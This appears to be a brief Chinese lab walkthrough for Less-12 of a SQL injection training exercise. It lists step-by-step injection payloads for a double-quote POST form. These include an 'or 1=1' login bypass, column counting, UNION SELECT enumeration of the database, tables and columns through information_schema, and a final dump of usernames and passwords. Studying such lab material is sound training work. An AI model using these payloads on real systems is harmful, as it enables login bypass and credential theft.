








# Less12

　　这关关于双引号报错post注入

　　做法与Less11一样，闭合的区别

　　由'变成")

　　尝试万能密码：")or 1=1 --+

　　判断字段数:")or 1=1 order by 2 -- lb

　　得知有两列

　　判断显错位:")union select 1,2 --+

　　判断库名：")union select 1,database() --+

　　判断表名：")union select 1,group\_concat(table\_name) from information\_schema.tables where table\_schema\='security' --+

　　判断列名：")union select 1,group_concat(column_name) from information_schema.columns where table_name='users' --+

　　爆出数据：")union select 1,group\_concat(username ,id , password) from users --+

